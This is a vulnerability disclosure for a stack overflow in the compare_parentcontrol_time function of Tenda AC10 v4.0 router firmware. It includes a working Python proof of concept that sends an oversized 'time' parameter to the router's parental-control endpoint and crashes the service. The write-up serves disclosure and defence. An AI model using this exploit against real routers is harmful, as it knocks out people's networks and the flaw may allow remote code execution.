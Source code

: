 # Tenda Router Vulnerability on compare_parentcontrol_time function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `time` parameter in the `compare_parentcontrol_time` function.

## Vulnerability Details

In function  `compare_parentcontrol_time`  line 7, it reads in a user-provided parameter `time`, and the variable is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `v3` and `v4`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231003172530854](assets/compare_parentcontrol_time_code.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
time = "1"*500 + "-" + "2"*500
data = {
    'deviceId': '10:11:11:11:11:15',
    'deviceName': 'deviceNAME5',
    'enable': '1',
    'time': time,
    'url_enable': '1',
    'urls': 'www.baidu.com,www.google.com',
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

response = requests.post(
    f'http://{ip}/goform/saveParentControlInfo',
    headers=headers,
    data=data,
    verify=False,
)
```

![image-20231003204540135](assets/crash1.png)

![image-20231004110508234](assets/crash2.png)